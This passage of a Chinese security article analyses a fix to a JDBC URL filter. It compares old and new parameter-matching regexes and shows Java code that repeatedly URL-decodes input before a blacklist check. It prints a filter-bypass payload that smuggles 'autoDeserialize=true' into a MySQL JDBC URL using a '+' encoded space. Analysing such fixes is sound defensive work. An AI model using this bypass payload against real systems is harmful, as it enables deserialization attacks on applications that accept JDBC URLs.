<table><thead><tr style="border: 0;border-top: 1px solid #ccc;background-color: #ffffff;"><th style="background-color: #f0f0f0;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;line-height: 1.6;background: #f0fdf4;color: #065f46;font-weight: 600;letter-spacing: 0.3px;min-width: 100px;text-align: left;"><section><span leaf="">部分</span></section></th><th style="background-color: #f0f0f0;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;line-height: 1.6;background: #f0fdf4;color: #065f46;font-weight: 600;letter-spacing: 0.3px;min-width: 100px;text-align: left;"><section><span leaf="">旧正则</span></section></th><th style="background-color: #f0f0f0;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;line-height: 1.6;background: #f0fdf4;color: #065f46;font-weight: 600;letter-spacing: 0.3px;min-width: 100px;text-align: left;"><section><span leaf="">新正则</span></section></th><th style="background-color: #f0f0f0;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;line-height: 1.6;background: #f0fdf4;color: #065f46;font-weight: 600;letter-spacing: 0.3px;min-width: 100px;text-align: left;"><section><span leaf="">说明</span></section></th></tr></thead><tbody><tr style="border: 0;border-top: 1px solid #ccc;background-color: #ffffff;"><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><section><span leaf="">大小写</span></section></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><code><span leaf="">(?i)</span></code></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><code><span leaf="">(?i)</span></code></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><section><span leaf="">忽略大小写，不变</span></section></td></tr><tr style="border: 0;border-top: 1px solid #ccc;background-color: #f8fafc;"><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><section><span leaf="">前缀要求</span></section></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><code><span leaf="">[?;&amp;]</span></code></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><strong style="font-weight: 600;color: #07c160;letter-spacing: 0.2px;"><span leaf="">删除</span></strong></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><section><span leaf="">旧版要求参数前必须有分隔符</span></section></td></tr><tr style="border: 0;border-top: 1px solid #ccc;background-color: #ffffff;"><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><section><span leaf="">参数名</span></section></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><code><span leaf="">([a-z]+)</span></code></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><code><span leaf="">([a-z0-9_]+)</span></code></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><section><span leaf="">新版支持数字和下划线</span></section></td></tr><tr style="border: 0;border-top: 1px solid #ccc;background-color: #f8fafc;"><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><section><span leaf="">空格处理</span></section></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><section><span leaf="">无</span></section></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><code><span leaf="">\\s*</span></code></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><section><span leaf="">新版允许等号前后有空格</span></section></td></tr><tr style="border: 0;border-top: 1px solid #ccc;background-color: #ffffff;"><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><section><span leaf="">等号</span></section></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><code><span leaf="">=</span></code></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><code><span leaf="">=\\s*</span></code></td><td style="border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;text-align: left;"><section><span leaf="">新版允许等号后有空格</span></section></td></tr></tbody></table>  
  
  
新正则的匹配规则  
  
Payload: jdbc:mysql://127.0.0.1/test?+autoDeserialize=true  
  
URL解码后: jdbc:mysql://127.0.0.1/test? autoDeserialize=true  
```
						      ↑						      '+' 变成空格
```  
  
正则： (?i)([a-z0-9_]+)\\s*=\\s*  
  
字符串：test? autoDeserialize=true  
  
扫描整个字符串，寻找所有 “参数名=”的模式  
  
匹配到：autoDeserialize=  
```
	↑↑↑↑↑↑↑↑↑↑↑↑↑↑↑ 	([a-z0-9\_]+) 捕获到 "autoDeserialize"
```  
  
‍  
  
旧思路：从分隔符开始匹配 → 容易被分隔符后的特殊字符串绕过  
```
    `[?;&]([a-z]+)=`     ↑     必须紧跟分隔符
```  
  
‍  
  
新思路：直接匹配所有“参数名=”模式 → 不依赖分割符位置  
```
     `([a-z0-9_]+)\\s*=`         ↑     匹配任意位置的参数名
```  
  
‍  
  
额外改进：  
- \\s*=\\s*  
 允许空格，防止  param = value  
 格式绕过  
  
- [a-z0-9_]  
 扩展字符集，覆盖更多参数名格式  
  
‍  
### 修复编码绕过  
  
‍  
```
            try {                for(int i = 0; i < 10; ++i) {                    previous = jdbcUrlDecode;                    jdbcUrlDecode = URLDecoder.decode(jdbcUrlDecode, "UTF-8");                    if (previous.equals(jdbcUrlDecode)) {                        break;                    }                }            } catch (UnsupportedEncodingException var7) {                throw new IllegalArgumentException("JDBC URL has wrong encoding");            }            if (!previous.equals(jdbcUrlDecode)) {                throw new IllegalArgumentException("JDBC URL contains invalid characters");
```  
  
‍  
  
‍  
  
  
<table><thead><tr style="border: 0;border-top: 1px solid #ccc;background-color: #ffffff;"><th style="text-align: left;background-color: #f0f0f0;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;line-height: 1.6;background: #f0fdf4;color: #065f46;font-weight: 600;letter-spacing: 0.3px;min-width: 100px;"><section><span leaf="">条件</span></section></th><th style="text-align: left;background-color: #f0f0f0;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;line-height: 1.6;background: #f0fdf4;color: #065f46;font-weight: 600;letter-spacing: 0.3px;min-width: 100px;"><section><span leaf="">触发时机</span></section></th><th style="text-align: left;background-color: #f0f0f0;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;line-height: 1.6;background: #f0fdf4;color: #065f46;font-weight: 600;letter-spacing: 0.3px;min-width: 100px;"><section><span leaf="">结果</span></section></th></tr></thead><tbody><tr style="border: 0;border-top: 1px solid #ccc;background-color: #ffffff;"><td style="text-align: left;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;"><code><span leaf="">previous == jdbcUrlDecode</span></code></td><td style="text-align: left;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;"><section><span leaf="">解码完成（通常1-5次内）</span></section></td><td style="text-align: left;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;"><code><span leaf="">break</span></code><section><span leaf="">跳出，继续检查</span></section></td></tr><tr style="border: 0;border-top: 1px solid #ccc;background-color: #f8fafc;"><td style="text-align: left;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;"><code><span leaf="">i &gt;= 10</span></code><section><span leaf="">且</span><code><span leaf="">previous ≠ jdbcUrlDecode</span></code></section></td><td style="text-align: left;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;"><section><span leaf="">编码超过10层</span></section></td><td style="text-align: left;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;"><section><span leaf="">抛异常，拒绝请求</span></section></td></tr><tr style="border: 0;border-top: 1px solid #ccc;background-color: #ffffff;"><td style="text-align: left;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;"><code><span leaf="">i &gt;= 10</span></code><section><span leaf="">且</span><code><span leaf="">previous == jdbcUrlDecode</span></code></section></td><td style="text-align: left;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;"><section><span leaf="">刚好10次解完</span></section></td><td style="text-align: left;border: 1px solid #e2e8f0;padding: 10px 14px;font-size: 15px;color: #334155;line-height: 1.6;min-width: 100px;"><section><span leaf="">正常，继续检查</span></section></td></tr></tbody></table>  
  
  
通过多次循环解码，直到解码后的字符串等于解码前的字符串（说明已完全解码），超过十次也强制结束循环。循环结束后会进行比较：如果解码前后仍不相等（说明10次还没解完），则抛出异常；如果相等，则使用完全解码后的字符串进行黑名单检查，从而避免通过多层  URL 编码绕过防护。  
  
[](https://mp.weixin.qq.com/s?__biz=MzkxNTIwNTkyNg==&mid=2247549615&idx=1&sn=5de0fec4a85adc4c45c6864eec2c5c56&scene=21#wechat_redirect)  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
